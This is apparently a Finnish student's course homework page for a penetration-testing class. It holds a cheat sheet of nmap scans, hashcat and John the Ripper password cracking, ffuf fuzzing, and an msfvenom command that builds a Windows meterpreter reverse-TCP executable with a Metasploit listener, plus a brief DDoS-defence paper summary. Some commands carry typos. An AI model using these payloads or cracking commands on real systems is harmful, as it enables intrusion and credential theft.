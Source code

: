 
    
 # H6
 
### Laitteisto
 
* Käyttöjärjestelmä	Microsoft Windows 10 Enterprise LTSC 64 bit
* Prosessori i5-6600
* RAM 16 GB
* Virtuaaliohjelmisto : Oracle VM VirtualBox
* Virtuaali käyttöjärjestelmä: Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4

 ## A) Cheat sheet

### NMAP
 
    mmap 192.168.1.1 ##Scan a single IP
    nmap 192.168.1.1 192.168.2.1 ##Scan specific IPs
    nmap 192.168.1.1-254 ##Scan a range
    nmap scanme.nmap.org ##Scan a domain
    nmap 192.168.1.0/24 ##Scan using CIDR notation
    -iL nmap -iL targets.txt ##Scan targets from a file
    -iR nmap -iR 100 ##Scan 100 random hosts
    -exclude nmap -exclude 192.168.1.1 ##Exclude listed host

### HASHCAT
    
 $ hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Mikä suorittaa Hashcat ohjelman. '-m 0' määrittää halutun tiivistetyypin (MD5 tässä tapauksessa, suosituin), sitten annetaan salasanatiiviste ja määritetään käytettävä sanakirja. '-o solved' tallentaa vastauksen solved-nimiseen tiedostoon.

### FUFF
    

       $ ./ffuf -w /home/r01/Documents/common.txt -u http://127.0.0.2:8000/FUZZ -ac

Komento käynnistää ffuff-ohjelman ( ./ffuf -w), seuraavaksi määritellään sanakirja (/home/r01/Documents/common.tx), sitten kohde (-u http://127.0.0.2:8000/FUZZ) ja lopuksi käytin komentoa autocalibrate (-ac), mikä automaattisesti määrittää suodattimet

### John The ripper

John the ripper on Hashcatin tapainen ohjelma joka toimii hieman eri tavalla.


    ./john tero.zip.hash ## Luo tiivisteen tiedostomuodosta joka on salasana suojattu

    ./john tero.zip.hash ## Ajaa ohjelman ja murtaa tiedoston tero.zip.hash

Asennus:

    $ sudo apt-get update
    $ sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget


    $ git clone --depth=1 https://github.com/openwall/john.git
    $ cd john/src/
    $ ./configure
    $ make -s clean && make -sj4

Käyttö:

    $ $HOME/john/run/zip2john tero.zip >tero.zip.hash
    $ $HOME/john/run/john tero.zip.hash 
    
    





### MSFVENOM ja METASPLOITABLE

    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

Esimerkki:

    msfv -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -f exe

Ylläoleva komento luo reverse tcp haittaohjelman joka kuuntelee osoitetta 127.0.0.1:80 ja ohjelma on .exe ajettava.

Metasploitablen käyttöön löysin hyvän sivuston missä vinkkejä sen käytöstä: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

Multi/handler:

    msfconsole
    use multi/handler/payload
    SET payload <haittaohjelma>
    SET LHOST <kuunteluosoite>
    SET LPORT <kuunteluportti>
    run -j ## Ajaa multihandlerin taustalla.

    
Metasploitableen on olemassa hyvä cheatsheet kuvana: 

![image](https://github.com/FredrikAkerlund/Starting-pentesting/assets/122887178/68fbebe5-8878-4be8-925f-cfa19839fb80)

Kuvan lähde: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

### Pencode

Pencode avulla voi helposti koodata stringejä haluamaksi

    echo 'hello world' | pencode md5   ## Koodaa hello world MD5 tiivisteeksi     
        5eb63bbbe01eeed093cb22bb8f5acdc3 ##MD5 tiiviste****


    pencode - complex payload encoder v0.4

    Usage: ./pencode FUNC1 FUNC2 FUNC3...
    
    ./pencode reads input from stdin by default, which is typically piped from another process.
    
    OPTIONS:
    -input reads input from a file, line by line.
    
    ENCODERS
      b64encode         - Base64 encoder
      hexencode         - Hex string encoder
      htmlescape        - HTML escape
      jsonescape        - JSON escape
      unicodeencodeall  - Unicode escape string encode (all characters)
      urlencode         - URL encode reserved characters
      urlencodeall      - URL encode all characters
      utf16             - UTF-16 encoder (Little Endian)
      utf16be           - UTF-16 encoder (Big Endian)
      xmlescape         - XML escape
    
    DECODERS
      b64decode         - Base64 decoder
      hexdecode         - Hex string decoder
      htmlunescape      - HTML unescape
      jsonunescape      - JSON unescape
      unicodedecode     - Unicode escape string decode
      urldecode         - URL decode
      xmlunescape       - XML unescape
    
    HASHES
      md5               - MD5 sum
      sha1              - SHA1 checksum
      sha224            - SHA224 checksum
      sha256            - SHA256 checksum
      sha384            - SHA384 checksum
      sha512            - SHA512 checksum
    
    OTHER
      filename.tmpl     - Replaces string #PAYLOAD# in content of a file that has .tmpl extension.
      lower             - Convert string to lowercase
      upper             - Convert string to uppercase


 
## B) A comprehensive survey on DDoS defense systems: New trends and challenges

- Julkaistu syyskuussa 2023 Computer Networks lehdesä, jufo taso 2 (https://jfp.csc.fi/#!PublicationInformationView/id/53938)
- IoT-laitteet ovat kasvattaneet DDoS-hyökkäyksien laajuutta merkittävästi.
- IoT-laitteiden määrä kasvaa huomattavasti, mutta niiden turvallisuus on usein heikko.
- Pilvipalveluiden avulla pyritään vähentämään DDoS-hyökkäyksien aiheuttamaa vahinkoa.
- DDoS-hyökkäyksien tutkimen on tärkeää, sillä ne muuttuvat ja kehittyvät jatkuvasti.
  



## Lähteet



Tunkeutumistestaus 2024, Tero Karvinen (https://terokarvinen.com/2024/eettinen-hakkerointi-2024/)

https://github.com/FredrikAkerlund/Starting-pentesting/blob/main/h6%20Countdown%20to%20CTF.md

Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4. (https://www.kali.org/get-kali/#kali-platforms)

https://jfp.csc.fi/

https://www.sciencedirect.com/science/article/abs/pii/S0167404823000068




#### Tehnyt Roi Partanen 11.5.2024
